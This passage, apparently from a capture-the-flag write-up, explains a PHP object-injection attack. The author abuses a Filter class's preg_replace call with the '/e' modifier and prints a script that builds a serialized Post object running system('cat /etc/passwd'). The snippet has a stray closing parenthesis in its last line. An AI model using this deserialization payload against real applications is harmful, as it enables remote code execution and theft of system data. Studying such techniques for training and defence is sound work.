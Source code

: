 the class accepts 3 parameters in the constructor

- title
- text
- filter

where title is a string, text is also a string, while filter is an array of objects from the Filter class.

```php
	class Filter {
		protected $pattern;
		protected $repl;
		function __construct($pattern, $repl) {
		  $this->pattern = $pattern;
		  $this->repl = $repl;
		}
		function filter($data) {
		  return preg_replace($this->pattern, $this->repl, $data);
		}
	};
```

And how convenient, because the Filter class makes a good use of the preg_replace() function! This is really good, because considering we are in control of the object, we can forge the regular expressions for the Filter object, and this allows us, to create a regexp that instead of replacing, would execute our substitution payload.

To build the object i created this simple PHP snipplet:

```php
<?php

class Filter {
    protected $pattern;
    protected $repl;

    function __construct($pattern, $repl) {
      $this->pattern = $pattern;
      $this->repl = $repl;
    }
    function filter($data) {
      return preg_replace($this->pattern, $this->repl, $data);
    }

}

$filterobject = [new Filter("/test/e", "system('cat /etc/passwd');")];

class Post
{
   protected $title = "test";
   protected $text = "test";
   protected $filters;

   function __construct() {
        global $filterobject;
        $this->filters = $filterobject;
   }

}

print  "\n".serialize(new Post));
```
